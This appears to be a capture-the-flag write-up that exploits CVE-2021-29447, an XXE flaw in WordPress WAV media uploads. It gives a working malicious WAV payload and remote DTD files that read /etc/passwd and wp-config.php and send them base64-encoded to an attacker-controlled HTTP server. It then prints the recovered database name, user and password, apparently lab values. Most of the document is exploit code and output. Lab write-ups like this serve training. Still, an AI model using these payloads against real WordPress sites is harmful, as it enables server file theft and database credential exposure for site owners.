 ## Use the vulnerability CVE-2021-29447 to read the wordpress configuration file.

1. We have credentials for the login `test-corp:test` so we have user permission to upload media files.
2. Create a malicious WAV file
3. `nano poc.wav` with `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav`
4. create the `NAMEEVIL.dtd` file with the following code 
```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY % trick SYSTEM 'http://[MY IP]:9999/?p=%file;'>" >
```
5. Launch http server `php -S 0.0.0:80` and upload the .wav

![0xskar](/assets/wordpresscve202129447-01.png)

* * * 

## Based on the results of #1, what is the name of the database for WordPress?

Modifying the NAMEEVIL.dtd to grap wp.config.

```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.2.127.225:80/?p=%file;'>" >
```

- Decode the base64 and raw inflate to see the contents

```
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpressdb2' );

/** MySQL database username */
define( 'DB_USER', 'thedarktangent' );

/** MySQL database password */
define( 'DB_PASSWORD', 'sUp3rS3cret132' );

/** MySQL hostname */
```